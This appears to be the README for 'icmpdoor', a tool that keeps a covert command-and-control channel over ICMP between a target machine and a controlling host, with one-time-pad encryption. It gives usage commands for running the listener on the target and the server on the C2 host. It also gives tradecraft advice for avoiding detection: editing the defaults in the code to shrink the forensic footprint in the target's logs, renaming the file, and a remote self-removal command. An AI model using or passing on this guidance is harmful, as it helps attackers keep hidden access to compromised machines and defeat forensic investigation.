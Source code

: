 # encryption using a onetime pad concept
The Icmpdoor class was created so that users have the ability to encrypt their transmissions.  In doing this a secondary effect of verification is introduced in that both machines will silently discard any packet which is not encrypted properly, thus reducing the chance of inadvertent commands being ran on the machine or false info presented back to the user.

Within the class are 5 lines which have default parameters; search for ## CHANGE ME.  These objects can be modified at runtime by way of a parameter being passed or by the user modifying the code prior to running.  The recommended way is to modify the lines of code as this will reduce the forensic footprint from a logging perspective on the target machine, especially if a successful remote removal is accomplished.

The remote removal option is activated by entering ```___otp___```.  Invoking this will stop the remote listener.  If the filename on the remote side is otp.py the file is removed.

Using a name other than icmpdoor.py on the target machine can be of use.

## Requirement setup
```python3 -m pip install -r requirements.txt```

## Example generation for a unique OTP:
- Run ```python3 ./icmpdoor.py -g```
- Enter a password
- The output can now be used with ```-o```

## Example usage where the destination IP is declared at runtime:
- Run ```python3 ./icmpdoor.py -d <Command and Control host IP>``` from the target machine
- Run ```python3 ./icmpdoor.py -m server -d <target machine IP>``` from the Command and Control host

